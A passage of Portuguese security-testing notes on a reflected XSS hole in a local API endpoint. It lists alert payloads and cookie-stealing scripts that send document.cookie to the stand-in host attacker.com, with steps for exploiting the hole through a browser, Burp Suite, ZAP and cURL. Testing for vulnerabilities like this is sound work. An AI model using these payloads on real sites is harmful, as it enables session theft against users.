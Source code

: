 ### 3. Teste com Payload Mais Complexo
**URL:** `GET http://localhost:8080/api/processos/numero/"><script>alert(document.cookie)</script>`

### 4. Teste com Payload de Roubo de Cookies
**URL:** `GET http://localhost:8080/api/processos/numero/"><script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script>`

## Payloads de Teste

### Payloads Básicos:
```
<script>alert('XSS')</script>
<script>alert(1)</script>
<img src=x onerror=alert('XSS')>
```

### Payloads Avançados:
```
"><script>alert(document.cookie)</script>
javascript:alert('XSS')
<svg onload=alert('XSS')>
```

### Payloads de Roubo de Dados:
```
"><script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script>
"><script>new Image().src='http://attacker.com/steal?cookie='+document.cookie;</script>
```

## Como Explorar

### 1. Via Navegador
1. Acesse a URL com o payload XSS
2. Se a resposta for renderizada em HTML, o script será executado

### 2. Via Ferramentas de Teste
- **Burp Suite**: Intercepte a requisição e modifique o parâmetro
- **OWASP ZAP**: Use o scanner automático
- **Postman**: Envie requisições com payloads XSS

### 3. Via cURL
```bash
curl -X GET "http://localhost:8080/api/processos/numero/%3Cscript%3Ealert('XSS')%3C/script%3E"
```

## Impacto da Vulnerabilidade

### 1. Execução de JavaScript Malicioso
- Roubo de cookies de sessão
- Redirecionamento para sites maliciosos
- Coleta de dados sensíveis
